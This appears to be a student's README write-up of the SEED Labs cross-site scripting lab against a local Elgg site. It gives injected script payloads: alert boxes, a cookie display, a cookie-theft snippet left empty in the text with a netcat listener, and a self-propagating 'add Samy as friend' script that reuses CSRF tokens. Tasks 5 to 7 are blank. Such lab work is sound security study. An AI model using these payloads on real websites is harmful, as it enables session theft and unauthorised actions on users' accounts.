



# Cross-Site Scripting Attack Lab

For `Mac` with an Apple M-series chip

**VMware Fusion:** [VMware Fusion 13 Pro 13.5.2](https://customerconnect.vmware.com/en/evalcenter?p=fusion-player-personal-13) or [From my drive](https://drive.google.com/file/d/1r93EjCoikbehD6aaPDMhJCsoqPh11t2t/view?usp=sharing)

**VM version:** [SEED Ubuntu-20.04 VM](https://seedsecuritylabs.org/labsetup.html) or [From my drive](https://drive.google.com/file/d/1IPzOHrPnvwh5saghyQwFgCjSAsM2ZfZZ/view?usp=drive_link)

# Tasks 

## Tasks 1 : Posting a Malicious Message to Display an Alert Window

In this task, we have to do an XSS attack by injecting a JavaScript snippet into the "Brief description" field. 

This JavaScript code will be executed whenever someone views our profile : 

```
<script>alert('XSS');</script>
```

- Profile Edit with Script Injection:

[](https://github.com/tanasinp/SeedLab/tree/main/Web/xss_attack/images/img_xss_attack_task_1_1.png)

- Alert Box Triggered:

[](https://github.com/tanasinp/SeedLab/tree/main/Web/xss_attack/images/img_xss_attack_task_1_2.png)

When the victim (`Alice`) visits the attacker(`Samy`)'s profile, the injected script executes and displaying an alert box.

## Tasks 2 :  Posting a Malicious Message to Display Cookies

In this task, we have to do an XSS attack by injecting a JavaScript snippet into the "Brief description" field. It will displays the cookies of the user viewing the profile.

This JavaScript code will be executed whenever someone views our profile : 

```
<script>alert(document.cookie);</script>
```

- Profile Edit with Script Injection:

[](https://github.com/tanasinp/SeedLab/tree/main/Web/xss_attack/images/img_xss_attack_task_2_1.png)

- Alert Box Displaying Cookies:

[](https://github.com/tanasinp/SeedLab/tree/main/Web/xss_attack/images/img_xss_attack_task_2_2.png)

Every time someone views `Samy` profile, the injected Javascript code will be executed.

## Tasks 3 : Stealing Cookies from the Victim’s Machine

In the previous task, the `victim` could only see their own browser's cookies. In this task, the `attacker` aims to capture the `victim’s cookies` by sending them to the `attacker's machine`.

Injected Script:

```
<script>
    document.write('');
</script>
```

Go to the Edit Profile page and insert this script into the "Brief description" field.

- Profile Edit with Injected Script:

[](https://github.com/tanasinp/SeedLab/tree/main/Web/xss_attack/images/img_xss_attack_task_3_1.png)

Start a Netcat listener to receive the cookies:

```
nc -lknv 5555
```

- Attacker’s Server Listening for Connections:

[](https://github.com/tanasinp/SeedLab/tree/main/Web/xss_attack/images/img_xss_attack_task_3_2.png)

When the victim visits the attacker’s profile, their cookies are sent to the attacker’s Netcat listener.

- Victim(`Alice`) Views the Profile:

[](https://github.com/tanasinp/SeedLab/tree/main/Web/xss_attack/images/img_xss_attack_task_3_3.png)

- Captured Cookies on Attacker’s Server:

[](https://github.com/tanasinp/SeedLab/tree/main/Web/xss_attack/images/img_xss_attack_task_3_4.png)

## Tasks 4 : Becoming the Victim’s Friend

In this task, the attacker (`Samy`) aims to create an `XSS worm` that automatically adds `Samy` as a friend for any user who visits `Samy`'s profile.

In order to find how to write this request, inspect the "Add Friend" button on another user's page.

- Inspect Add Friend Button

[](https://github.com/tanasinp/SeedLab/tree/main/Web/xss_attack/images/img_xss_attack_task_4_1.png)

This reveals the URL and parameters used for the friend request:

```
http://www.seed-server.com/action/friends/add?friend=59&amp;__elgg_ts=1732271486&amp;__elgg_token=WXDfFi0ucQTatfxYj3TOSQ
```

Go to the Members page and inspect the HTML elements. We could find Samy's ID by inspecting the "Members" page. 

- Inspect Members Page

[](https://github.com/tanasinp/SeedLab/tree/main/Web/xss_attack/images/img_xss_attack_task_4_2.png)

Samy's user ID is `59`.

With this information, we can create a request that will add Samy as a friend when executed in a script on other users' browsers. 

```
<script type="text/javascript">
window.onload = function() {
    // Get the CSRF token and timestamp
    var Ajax = null;
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;

    // Construct the URL to add Samy as a friend
    var friend_id = "59"; // Replace 59 with Samy’s user ID
    var sendurl = "http://www.seed-server.com/action/friends/add?friend=" + friend_id + ts + token;

    // Send the HTTP request
    var Ajax = new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
};
</script>
```

Log in as Samy and edit the "About Me" of the profile. 

- Script Injection in Profile

[](https://github.com/tanasinp/SeedLab/tree/main/Web/xss_attack/images/img_xss_attack_task_4_3.png)

- Before visiting Samy's profile:

[](https://github.com/tanasinp/SeedLab/tree/main/Web/xss_attack/images/img_xss_attack_task_4_4.png)

- Visiting Samy's profile:

[](https://github.com/tanasinp/SeedLab/tree/main/Web/xss_attack/images/img_xss_attack_task_4_5.png)

After visiting Samy's profile:

[](https://github.com/tanasinp/SeedLab/tree/main/Web/xss_attack/images/img_xss_attack_task_4_6.png)

## Tasks 5

## Tasks 6

## Tasks 7